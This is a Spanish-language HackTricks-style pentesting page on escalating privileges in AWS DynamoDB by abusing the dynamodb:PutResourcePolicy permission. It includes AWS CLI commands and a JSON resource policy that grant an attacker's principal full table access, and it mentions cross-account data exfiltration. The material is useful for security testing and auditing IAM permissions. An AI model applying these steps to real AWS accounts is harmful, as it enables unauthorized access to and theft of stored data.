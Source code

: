 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Para más información sobre dynamodb, consulta:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, y opcionalmente `dynamodb:GetResourcePolicy`

Desde marzo de 2024, AWS ofrece *políticas basadas en recursos* para DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Así que, si tienes el `dynamodb:PutResourcePolicy` para una tabla, puedes simplemente otorgarte a ti mismo o a cualquier otro principal acceso completo a la tabla.

Otorgar el `dynamodb:PutResourcePolicy` a un principal aleatorio a menudo ocurre por accidente, si los administradores piensan que otorgar `dynamodb:Put*` solo permitiría al principal insertar elementos en la base de datos, o si otorgaron ese conjunto de permisos antes de marzo de 2024...

Idealmente, también tienes `dynamodb:GetResourcePolicy`, para que no sobrescribas otros permisos potencialmente vitales, sino que solo inyectes los permisos adicionales que necesitas:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Si no puedes recuperar la política actual, simplemente utiliza esta que otorga acceso total a la tabla a tu principal:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Si necesitas personalizarlo, aquí hay una lista de todas las acciones posibles de DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Y aquí hay una lista de todas las acciones que se pueden permitir a través de una política basada en recursos *Y cuáles de estas se pueden usar entre cuentas (¡piensa en la exfiltración de datos!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Ahora, con el documento de política `policy.json` listo, coloca la política de recursos:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Ahora, deberías tener los permisos que necesitabas.

### Post Explotación

Hasta donde sé, **no hay otra forma directa de escalar privilegios en AWS solo con tener algunos permisos de AWS `dynamodb`**. Puedes **leer información sensible** de las tablas (que podrían contener credenciales de AWS) y **escribir información en las tablas** (lo que podría desencadenar otras vulnerabilidades, como inyecciones de código lambda...) pero todas estas opciones ya están consideradas en la **página de Post Explotación de DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Leer datos abusando de Streams de datos

{{#include ../../../banners/hacktricks-training.md}}

